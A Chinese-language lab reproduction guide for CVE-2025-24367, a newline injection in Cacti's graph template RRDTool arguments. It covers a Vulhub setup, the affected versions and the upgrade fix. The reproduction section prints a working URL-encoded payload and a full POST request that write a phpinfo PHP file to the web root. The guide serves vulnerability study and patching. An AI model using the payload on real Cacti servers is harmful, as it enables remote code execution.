 # Cacti RRDTool 后台参数注入导致远程代码执行 CVE-2025-24367

## 漏洞描述

Cacti 是一款利用 RRDTool 数据存储和图形化功能的完整网络图形化解决方案。在 Cacti 1.2.28 及以前版本中存在一个命令注入漏洞，该漏洞允许已认证用户在 Web 服务器上创建任意 PHP 文件，从而可能导致远程代码执行。

此漏洞出现在图形模板功能中，用户输入的 RRDTool 命令参数，如 `--right-axis-label`，未被正确过滤。虽然 Cacti 尝试使用 `cacti_escapeshellarg()` 函数转义 shell 元字符，但它未能处理换行符。这允许攻击者突破预期的命令上下文并注入其他 RRDTool 命令，最终能够向 Web 根目录写入恶意 PHP 文件。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq
- https://github.com/Cacti/cacti/commit/c7e4ee798d263a3209ae6e7ba182c7b65284d8f0

## 漏洞影响

```
Cacti <= 1.2.28
```

## 环境搭建

Vulhub 执行如下命令启动 Cacti 1.2.28：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Cacti 的登录界面，默认用户名密码为 admin/admin。

你需要登录并按照初始化指引操作，只需点击 "Next" 按钮直到看到成功页面即可。

![](images/Cacti%20RRDTool%20后台参数注入导致远程代码执行%20CVE-2025-24367/image-20250331154817035.png)

## 漏洞复现

在 Cacti 控制台，导航至 "Console → Templates → Graph"，找到 "PING - Advanced Ping" 模板并编辑它。捕获这个编辑请求，然后修改 `right_axis_label` 参数为以下 payload（请注意换行符 `%0a`）：

```
XXX
create my.rrd --step 300 DS:temp:GAUGE:600:-273:5000 RRA:AVERAGE:0.5:1:1200
graph vulhub.php -s now -a CSV DEF:out=my.rrd:temp:AVERAGE LINE1:out:<?=phpinfo();?>

# URLEncode
XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+vulhub.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A
```

发送请求包：

```
POST /graph_templates.php?header=false HTTP/1.1
Host: your-ip:8080
Accept-Language: en
Accept: */*
Origin: http://your-ip:8080
Accept-Encoding: gzip, deflate
Referer: http://your-ip:8080/graph_templates.php?action=template_edit&id=297
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie:
Content-Length: 590

__csrf_magic=sid%3A177b18c4669cf1f2ddb92b3fb5de63afe9aec9b0%2C1743407390&name=PING+-+Advanced+Ping&graph_template_id=297&graph_template_graph_id=297&save_component_template=1&title=%7Chost_description%7C+-+Advanced+Ping&vertical_label=milliseconds&image_format_id=3&height=200&width=700&base_value=1000&slope_mode=on&auto_scale_opts=1&upper_limit=10&lower_limit=0&unit_value=&unit_exponent_value=1&unit_length=&right_axis=&right_axis_label=XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+xxx2.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A&right_axis_format=0&right_axis_formatter=0&left_axis_formatter=0&tab_width=30&legend_position=0&legend_direction=0&rrdtool_version=1.7.2&action=save
```

![](images/Cacti%20RRDTool%20后台参数注入导致远程代码执行%20CVE-2025-24367/image-20250331161340124.png)

然后，来到 "Console → Create → New Graphs"，使用 "PING - Advanced Ping" 模板创建一个新图表：

![](images/Cacti%20RRDTool%20后台参数注入导致远程代码执行%20CVE-2025-24367/image-20250331161504601.png)

之后，来到 "Graphs → Default Tree → Local Linux Machine" 来触发 payload 执行。你会看到一个带有 "Error: creating arguments" 错误消息的图像，这意味着 payload 已被执行：

![](images/Cacti%20RRDTool%20后台参数注入导致远程代码执行%20CVE-2025-24367/image-20250331161533096.png)

命令执行后，payload 将在 Cacti 的 Web 根目录创建两个文件：一个 RRD 文件 `my.rrd` 和一个 phpinfo 页面 `xxx2.php`：

![](images/Cacti%20RRDTool%20后台参数注入导致远程代码执行%20CVE-2025-24367/image-20250331161630295.png)

![](images/Cacti%20RRDTool%20后台参数注入导致远程代码执行%20CVE-2025-24367/image-20250331161928961.png)

## 漏洞修复

官方已发布 1.2.29 版本修复该漏洞，建议升级至最新版本。
